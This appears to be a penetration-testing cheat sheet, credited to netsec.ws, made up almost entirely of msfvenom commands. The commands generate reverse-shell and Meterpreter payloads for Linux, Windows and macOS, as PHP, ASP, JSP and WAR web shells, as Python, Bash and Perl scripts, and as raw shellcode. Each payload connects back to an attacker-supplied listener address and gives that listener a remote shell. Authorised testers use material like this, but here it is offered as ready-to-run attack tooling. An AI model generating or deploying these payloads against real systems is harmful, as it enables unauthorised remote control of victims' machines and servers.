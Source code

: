 # Msfvenom


msfvenom -l



## Linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

## Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

## Mac

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

## Web Payloads

### PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

### ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

### JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp


### WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war


## Python

msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

## Bash

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

## Perl

msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

## Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

### Linux Based Shellcode

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

### Windows Based Shellcode

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
### Mac Based Shellcode

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Source : https://netsec.ws/?p=331
